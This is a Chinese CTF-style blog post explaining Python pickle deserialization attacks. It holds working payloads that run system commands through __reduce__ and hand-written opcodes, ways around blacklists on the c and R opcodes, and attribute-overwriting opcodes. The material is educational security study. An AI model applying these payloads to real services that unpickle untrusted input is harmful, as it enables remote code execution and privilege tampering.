




+++
title = "pickle反序列化"
slug = "pickle-deserialization"
description = "pickle吗"
date = "2025-02-28T14:01:23"
lastmod = "2025-02-28T14:01:23"
image = ""
license = ""
categories = ["talk"]
tags = ["pickle", "姿势"]

+++

# 说在前面

我很早就接触到了这个部分，或者说，距离今日，已经是好几个月了，但是我发现基本市面上的CTF比赛只会考察一点黑名单和reduce方法，所以我对这部分知识就没有那么的热情，现在不知道干嘛，就来学习下

# question

## 开胃的方法

### `__reduce__`

我做过部分简单的题目，基本都是reduce就可以搞定，大概的payload类似于下

```python
import pickle

class Poc(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('whoami')",))


poc=pickle.dumps(Poc())
print(poc)
pickle.loads(poc)
```

`__reduce__`函数，该函数能够定义该类的二进制字节流被反序列化时进行的操作。返回值是一个`(callable, ([para1,para2...])[,...])`类型的元组。所以手残党如果没带那个逗号，就经常容易写出报错来。

当这样的对象被反序列化(unpickling)就会进行函数调用，也就成功RCE了

### others

首先先看官方文档[pickle]()，主要就是区分一下子函数比如`dump`处理文件，`dumps`处理字节，看了官方文档发现了几个方法，同时我使用了opcode来进行一个demo测试发现局限性非常大，比如说

```python
import pickle
class MyClass():
    def __init__(self, value):
        self.value = eval("__import__('os').system('whoami')")

    def __getstate__(self):
        return {"value": self.value}

obj = MyClass("poc")
serialized = pickle.dumps(obj)
print(serialized)
pickle.loads(serialized)
```

比如说当我使用`__getstate__`方法的时候我发现成功RCE了，于是我生成`opcode`，直接利用opcode来进行反序列化，发现

```python
import pickle

a=b'\x80\x04\x95)\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x07MyClass\x94\x93\x94)\x81\x94}\x94\x8c\x05value\x94K\x00sb.'
pickle.loads(a)
# AttributeError: Can't get attribute 'MyClass' on <module '__main__' from 'E:\\PyCharm\\object\\pickle\\test\\test.py'>
```

发现了这样的报错，也就是说不在main模块里面，那我把这个`opcode`，放在原来我在的函数里面，毕竟RW里面的传参也是肯定在那个类里面的，

```python
import pickle
class MyClass():
    def __init__(self, value):
        self.value = eval("__import__('os').system('whoami')")

    def __getstate__(self):
        return {"value": self.value}

# obj = MyClass("poc")
# serialized = pickle.dumps(obj)
# print(serialized)
# pickle.loads(serialized)
a=b'\x80\x04\x95)\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x07MyClass\x94\x93\x94)\x81\x94}\x94\x8c\x05value\x94K\x00sb.'
pickle.loads(a)
```

发现无事发生，nothing？！后面我调试发现并不是因为`loads`进行了反序列化，而是因为他本身就可以了进行

```python
class MyClass():
    def __init__(self, value):
        self.value = eval("__import__('os').system('whoami')")

    def __getstate__(self):
        return {"value": self.value}

obj = MyClass("poc")
```

是因为`__init__`导致的RCE，所以自然反序列化就失败了，`__setstate__`方法的利用也是和这个一样的，那么我们再看看，但是另外两个方法`__getnewargs_ex__`和`__getnewargs__`，我倒是没有发现什么东西，那么我们接着看`Pickler`这个类，当他的`protocol`为4时，是可以正确的进行一个反序列化的，

```python
import pickle
class Poc(object):
    def __reduce__(self):
        return (eval,("__import__('os').system('whoami&dir')",))


with open("data.pkl", "wb") as f:
    pickler = pickle.Pickler(f, protocol=4)
    pickler.dump(Poc())

with open("data.pkl", "rb") as f:
    pickle.load(f)
```

但是他是需要进行一个文件处理才能做到的，再来看看我们的老相识`__reduce__`，这个没什么可说的，但是值得一提的是`__reduce_ex__`，能够完美的替代他，只不过也要使用到`protocol`

```python
import pickle

class Poc(object):
    def __reduce_ex__(self, protocol):
        return (eval, ("__import__('os').system('whoami')",))


poc=pickle.dumps(Poc(),4)
print(poc)
pickle.loads(poc)
```

我正想尝试使用这个方法能否绕过某种机制的时候发现失败了

```python
# class MyClass:
#     def __reduce__(self):
#         # 方法实现
#         pass
class MyClass:
    def __reduce_ex__(self, protocol):
        return (eval, ("__import__('os').system('whoami')",))
# 检查类是否有 reduce 方法
if hasattr(MyClass, '__reduce__') and callable(MyClass.__reduce__):
    print("类中包含可调用的 reduce 方法")
else:
    print("类中未定义 reduce 方法")
```

啊？为啥会失败呢，查阅资料`hasattr(MyClass, '__reduce__')`检查的是类或其父类中是否存在此方法，**无论其是否被覆盖**。而且二者的优先级是`__reduce_ex__`更高，至于知道这个有啥用，我不说(~~其实是我不会~~)

## pickle工作原理

了解了最基本的方法之后，看看其解析pickle的原理，pickle可以看作是一种独立的栈语言，它由一串串opcode（指令集）组成。该语言的解析是依靠Pickle Virtual Machine （PVM）进行的。

PVM由以下三部分组成

- 指令处理器：从流中读取 `opcode` 和参数，并对其进行解释处理。重复这个动作，直到遇到 . 这个结束符后停止。 最终留在栈顶的值将被作为反序列化对象返回。
- stack：由 Python 的 **`list`** 实现，被用来临时存储数据、参数以及对象。
- memo：由 Python 的 **`dict`** 实现，为 PVM 的整个生命周期提供存储。



即使给出了这样的静态图，小包其实也难以理解，所以在其他文章看到了两张令人醒目的动图，第一张为解析`str`，第二张为解析`__reduce__()`





刚才写出`__reduce_ex__`的例子的时候，我们也可以知道其实pickle是有版本的，

- v0 版协议是原始的“人类可读”协议，并且向后兼容早期版本的 Python。
- v1 版协议是较早的二进制格式，它也与早期版本的 Python 兼容。
- v2 版协议是在 Python 2.3 中引入的。它为存储 [new-style class](https://docs.python.org/zh-cn/3.7/glossary.html#term-new-style-class) 提供了更高效的机制。欲了解有关第 2 版协议带来的改进，请参阅 [PEP 307](https://www.python.org/dev/peps/pep-0307)。
- v3 版协议添加于 Python 3.0。它具有对 [`bytes`](https://docs.python.org/zh-cn/3.7/library/stdtypes.html#bytes) 对象的显式支持，且无法被 Python 2.x 打开。这是目前默认使用的协议，也是在要求与其他 Python 3 版本兼容时的推荐协议。
- v4 版协议添加于 Python 3.4。它支持存储非常大的对象，能存储更多种类的对象，还包括一些针对数据格式的优化。有关第 4 版协议带来改进的信息，请参阅 [PEP 3154](https://www.python.org/dev/peps/pep-3154)。

不过这玩意是有特点的，他是向前兼容的，所以即使我们用0版本，也可以被正确的loads，那我们如果要进行一些高阶利用，就要手写opcode，而这样，我们必须知道工作原理，首先我们跟进`loads`得知



可以看到其实是利用的`_Unpickler`类的`load()`，

```python
    def load(self):
        """Read a pickled object representation from the open file.

        Return the reconstituted object hierarchy specified in the file.
        """
        # Check whether Unpickler was initialized correctly. This is
        # only needed to mimic the behavior of _pickle.Unpickler.dump().
        if not hasattr(self, "_file_read"):
            raise UnpicklingError("Unpickler.__init__() was not called by "
                                  "%s.__init__()" % (self.__class__.__name__,))
        self._unframer = _Unframer(self._file_read, self._file_readline)
        self.read = self._unframer.read
        self.readinto = self._unframer.readinto
        self.readline = self._unframer.readline
        self.metastack = []
        self.stack = []
        self.append = self.stack.append
        self.proto = 0
        read = self.read
        dispatch = self.dispatch
        try:
            while True:
                key = read(1)
                if not key:
                    raise EOFError
                assert isinstance(key, bytes_types)
                dispatch[key[0]](self)
        except _Stop as stopinst:
            return stopinst.value
```

其实最主要的就是`dispatch[key[0]](self)`，这是在根据操作码调用相应的处理函数，

| 操作码 | 描述                                                         | 语法格式                  | 栈上的变化                                                   |
| ------ | ------------------------------------------------------------ | ------------------------- | ------------------------------------------------------------ |
| `c`    | 获取一个全局对象或import一个模块                             | `c[module]\n[instance]\n` | 获得的对象入栈                                               |
| `N`    | 实例化一个None                                               | `N`                       | 获得的对象入栈                                               |
| `S`    | 实例化一个字符串对象                                         | `S'xxx'\n`                | 获得的对象入栈                                               |
| `V`    | 实例化一个UNICODE字符串对象                                  | `Vxxx\n`                  | 获得的对象入栈                                               |
| `I`    | 实例化一个int对象                                            | `Ixxx\n`                  | 获得的对象入栈                                               |
| `F`    | 实例化一个float对象                                          | `Fx.x\n`                  | 获得的对象入栈                                               |
| `)`    | 向栈中直接压入一个空元组                                     | `)`                       | 空元组入栈                                                   |
| `]`    | 向栈中直接压入一个空列表                                     | `]`                       | 空列表入栈                                                   |
| `}`    | 向栈中直接压入一个空字典                                     | `}`                       | 空字典入栈                                                   |
| `g`    | 将memo_n的对象压栈                                           | `gn\n`                    | 对象被压栈                                                   |
| `(`    | 向栈中压入一个MARK标记                                       | `(`                       | MARK标记入栈                                                 |
| `o`    | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数 | `o`                       | 涉及到的数据都出栈，函数的返回值入栈                         |
| `i`    | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数 | `i[module]\n[callable]\n` | 涉及到的数据都出栈，函数返回值入栈                           |
| `R`    | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | `R`                       | 函数和参数出栈，函数的返回值入栈                             |
| `t`    | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | `t`                       | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| `l`    | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | `l`                       | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| `d`    | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | `d`                       | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| `0`    | 丢弃栈顶对象                                                 | `0`                       | 栈顶对象被丢弃                                               |
| `b`    | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | `b`                       | 栈上第一个元素出栈                                           |
| `s`    | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | `s`                       | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 |
| `a`    | 将栈的第一个元素append到第二个元素(列表)中                   | `a`                       | 栈顶元素出栈，第二个元素（列表）被更新                       |
| `u`    | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | `u`                       | MARK标记以及被组合的数据出栈，字典被更新                     |
| `e`    | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | `e`                       | MARK标记以及被组合的数据出栈，列表被更新                     |
| `p`    | 将栈顶对象储存至memo_n                                       | `pn\n`                    | 无                                                           |
| `.`    | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | `.`                       | 无                                                           |

还有调试工具**pickletools**

顺便说一下，为了能够更加直观的看到栈上的变化，python提供了一个强有力的工具，使用大概就是这样

```python
import pickle
import pickletools

opcode = b'''cos
system
(S'whoami'
tR.
'''

person = pickle.loads(opcode)
pickletools.dis(opcode)
```

## opcode利用

在反序列化字符串中，`"}`为结束的字符串，而在opcode中，什么是呢。比如这样一个命令，直接利用`c`操作码去调用`os.system`

```python
import pickle

opcode = b'''cos
system
(S'whoami'
tRcos
system
(S'dir'
tR.'''
pickle.loads(opcode)
```

确实成功没有报错，我们可以通过去掉`.`来将两个字节流拼接起来，说明`.`是程序结束的标志

### 命令执行

看到上面的操作码，其实常用来构建命令的就是三样，`R\i\o`，分别写几个构造好的例子

```python
# R
opcode = b'''cos
system
(S'whoami'
tR.
'''

# o
opcode = b'''(cos
system
S'whoami'
o.
'''

# i
opcode = b'''(S'whoami'
ios
system
.
'''
```

其实都是大同小异的，忽而想起之前有人问我当过滤`c`操作码之后应该如何绕过，写`i`就行了

可以明显看到命令执行的opcode是基于、RIO这三种操作码来的，那如果我把这三种给禁用了，那还有办法吗？

一开始我想着是如果有一个后门函数的话，可以直接利用b操作码来完成opcode编写利用，不过由于b操作码只能操作`__setstate__`方法，并且BUILD期望栈上有两个元素：对象和状态。所以必须要有`@classmethod`存在才可以。

```python
import pickle

class VulnFixed:
    @classmethod
    def __setstate__(cls, cmd):
        import os
        os.system(cmd)

fixed_payload = b"c__main__\nVulnFixed\nS'echo FIXED_SUCCESS!'\nb."
pickle.loads(fixed_payload)
```

那能否能够在没有恶意类的情况利用b操作码来RCE呢？

这里有一个操作，**NEWOBJ**然后借助两次b即可完成这样的操作

```python
#!/usr/bin/env python3

import pickle

class TestClass:
    def __init__(self):
        self.normal_attr = "normal_value"

opcode =b'c__main__\nTestClass\n)\x81}S"__setstate__"\ncos\nsystem\nsbS"whoami"\nb.'
pickle.loads(opcode)
```

在学习这类操作码之后，我发现还会有一个新手常有的问题，就是opcode的书写情况，总有可能换行空格没放好所以出现问题，这种就使用AI来解决没什么大问题。

当然了除了这种，还可以使用map来进行元素迭代

```python
import pickle

opcode=b'''c__builtin__
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
bytes
p4
(g3
t\x81.'''

pickle.loads(opcode)
```

但是到这里你就会发现，所有方法都会依赖于C操作码，这也是之前有师傅在ctfshow里面问过的问题，不过，我找到了一个可以替代他的`STACK_GLOBAL`但是无论如何他都要使用R操作码，非常之操蛋，不然就只能拿到函数，不能直接执行命令

```python
import pickle

opcode = b'Vos\nVsystem\n\x93(Vpwd\ntR.'
pickle.loads(opcode)
```

只能拿到函数这种就只能把loads之后的结果存起来。

```python
import pickle
opcode = b'Vos\nVsystem\n\x93\x85.'
result = pickle.loads(opcode)
func = result[0]
func('pwd')
```

那我们观察map的迭代版，能不能更进一步呢？答案是不可以！你做梦呢，既要又要的

```python
# test1
import pickle
(lambda f: f('pwd'))(pickle.loads(b'Vos\nVsystem\n\x93\x85.')[0])

# test2
import pickle
payload = b']Vos\nVsystem\n\x93aVwhoami\na.'
result = pickle.loads(payload)
result[0](result[1]) 

# test3
import pickle
pickle.loads(b'Vos\nVsystem\n\x93\x85.')[0]('whoami')
```

### 变量覆盖

其中看到有三个操作码都可以完成这样的操作，`b\s\u\e`

```python
import pickle
import pickletools

class Person:
    def __init__(self, name, age):
        self.name = name
        self.age = age
        self.role = "user"


original_person = Person("Alice", 25)
print(f"原始对象: name={original_person.name}, age={original_person.age}, role={original_person.role}")

opcode = b'''c__main__
Person
(S'Bob'
I30
tR}(S'role'
S'admin'
S'password'
S'secret123'
S'age'
I999
ub.'''


person = pickle.loads(opcode)
pickletools.dis(opcode)

print(f"覆盖后: name={person.name}, age={person.age}, role={person.role}, password={person.password}")
print(f"新增属性: password={person.password}")


```

使用`s`操作码，利用属性名，又或是索引来修改属性

```python
import pickle
import pickletools

opcode_dict = b'''}S'name'
S'Alice'
sS'role'
S'user'
sS'role'
S'admin'
s.'''

pickletools.dis(opcode_dict)

result_dict = pickle.loads(opcode_dict)
print(f"结果字典: {result_dict}")

opcode_list = b''']S'first'
aI0
S'OVERWRITTEN'
s.'''

pickletools.dis(opcode_list)

result_list = pickle.loads(opcode_list)
print(f"结果列表: {result_list}")

```

